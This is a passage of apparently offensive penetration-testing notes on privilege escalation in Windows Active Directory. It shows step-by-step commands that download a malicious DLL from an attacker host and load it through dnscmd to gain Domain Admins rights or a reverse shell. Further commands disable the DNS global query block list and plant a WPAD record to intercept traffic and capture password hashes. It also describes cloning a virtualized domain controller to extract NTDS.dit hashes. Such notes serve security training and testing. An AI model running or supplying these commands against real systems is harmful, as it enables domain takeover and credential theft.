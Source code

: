 ````
>  wget "http://<Our_IP>:7777/adduser.dll" -outfile "adduser.dll"

# Step 3 - Loading Custom DLL
> dnscmd.exe /config /serverlevelplugindll C:\Users\<user>\Desktop\adduser.dll

# Step 4 - Stopping the DNS Service
> sc stop dns

# Step 5 - Starting the DNS Service
> sc start dns

# Step 6 - Confirming the result
> net group "Domain Admins" /dom
or Reverse Shell
````
**Cleaning Up**
````
# Confirming Registry Key Added
> reg query \\<IP>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters

# Deleting Registry Key
> reg delete \\<IP>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll

# Starting the DNS Service Again
> sc.exe start dns

# Checking DNS Service Status
> sc query dns
````
**Creating a WPAD Record**

Another way to abuse DnsAdmins group privileges is by creating a WPAD record. Membership in this group gives us the rights to disable global query block security, which by default blocks this attack. After disabling the global query block list and creating a WPAD record, every machine running WPAD with default settings will have its traffic proxied through our attack machine. We could use a tool such as Responder or Inveigh to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.
````
# Disabling the Global Query Block List
> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.<domain>

# Adding a WPAD Record
> Add-DnsServerResourceRecordA -Name wpad -ZoneName <domain> -ComputerName dc01.<domain> -IPv4Address <IP>
````

## Hyper-V Administrators

The Hyper-V Administrators group has full access to all Hyper-V features. If Domain Controllers have been virtualized, then the virtualization admins should be considered Domain Admins. They could easily create a clone of the live Domain Controller and mount the virtual disk offline to obtain the NTDS.dit file and extract NTLM password hashes for all users in the domain.
